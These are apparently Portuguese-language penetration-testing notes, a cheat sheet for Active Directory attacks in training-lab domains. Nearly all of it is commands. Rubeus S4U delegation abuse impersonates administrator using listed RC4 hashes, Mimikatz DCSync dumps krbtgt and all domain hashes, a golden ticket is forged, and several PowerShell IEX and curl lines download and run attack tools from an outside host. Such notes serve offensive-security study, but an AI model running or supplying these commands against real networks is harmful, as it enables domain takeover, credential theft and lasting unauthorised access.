 
OBTER TICKET LDAP:
```
rubeus.exe s4u /user:yamcha /rc4:1A9D94FDE4F369D53FA5515D1D6BEEE0 /impersonateuser:"administrator" /msdsspn:"cifs/TECH-DC01.TECH.LOCAL" /altservice:ldap /ptt 
```
ATAQUE DCSYNC:
```
.\Mimikatz
lsadump::dcsync /user:tech\krbtgt
lsadump::dcsync /domain:TECH.LOCAL /all /csv
```
- OPÇÃO 2 - ACESSAR REMOTAMENTE VIA PSREMOTE
OBTER TICKET: host,http,wsman,rpcss
```
rubeus.exe s4u /user:yamcha /rc4:1A9D94FDE4F369D53FA5515D1D6BEEE0 /impersonateuser:"administrator" /msdsspn:"cifs/TECH-DC01.TECH.LOCAL" /altservice:host,http,wsman,rpcss /ptt 
```
ACESSAR REMOTAMENTE:
```
enter-pssession -computername TECH-DC01.TECH.LOCAL
```
- OPÇÃO 3 - CRIAR GOLDEN TICKETS
```
kerberos::golden /User:vegeta /domain:tech.local /sid:S-1-5-21-4215187987-3124207031-433979976 /krbtgt:28ec87e3414d019c944786bf447fd666 id:500 /groups:512 /startoffset:0 /ending:600 /renewmax:10080 /ptt
```
##### CONSTRAINED DELEGATION - USUARIO PAPUM
websvc:cc098f204c5887eaa8253e7c2749156f
```
IEX(New-Object System.Net.WebClient).DownloadString("http://172.16.99.209/oscp/PowerView_dev.ps1")
$FormatEnumerationLimit=-1
Get-DomainUser -TrustedToAuth | select samaccountname, msds-allowedtodelegateto, useraccountcontrol  | fl | Out-String -Width 4096
curl http://172.16.99.209/oscp/Rubeus.exe -Outfile Rubeus.exe
.\rubeus.exe s4u /user:websvc /rc4:cc098f204c5887eaa8253e7c2749156f /impersonateuser:"administrator" /msdsspn:"CIFS/dcorp-mssql" /altservice:host,http,wsman,rpcss,ldap,cifs /ptt
enter-pssession -computername  dcorp-mssql
```
##### CONSTRAINED DELEGATION - COMPUTER PAPUM
DCORP-ADMINSRV$:5e77978a734e3a7f3895fb0fdbda3b96
```
IEX(New-Object System.Net.WebClient).DownloadString("http://172.16.99.209/oscp/crtp/Invoke-Mimikatz2.ps1")
curl http://172.16.99.209/oscp/crtp/Invoke-Mimikatz2.ps1 -outfile Invoke-Mimikatz2.ps1

curl http://172.16.99.209/oscp/crtp/ADModule-master.zip -Outfile ADModule-master.zip
Expand-Archive .\ADModule-master.zip
import-module .\Microsoft.ActiveDirectory.Management.dll
cd .\ActiveDirectory\
import-module .\ActiveDirectory.psd1
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties * | select samaccountname, msDS-AllowedToDelegateTo | Out-String -Width 4096
.\rubeus.exe s4u /user:DCORP-ADMINSRV$ /rc4:5e77978a734e3a7f3895fb0fdbda3b96 /impersonateuser:"administrator" /msdsspn:"TIME/dcorp-DC" /altservice:cifs,ldap /ptt
.\rubeus.exe s4u /user:DCORP-ADMINSRV$ /rc4:5e77978a734e3a7f3895fb0fdbda3b96 /impersonateuser:"administrator" /msdsspn:"TIME/dcorp-dc.dollarcorp.moneycorp.LOCAL" /altservice:cifs,ldap /ptt
lsadump::dcsync /domain:dollarcorp.moneycorp.local /all /csv
```
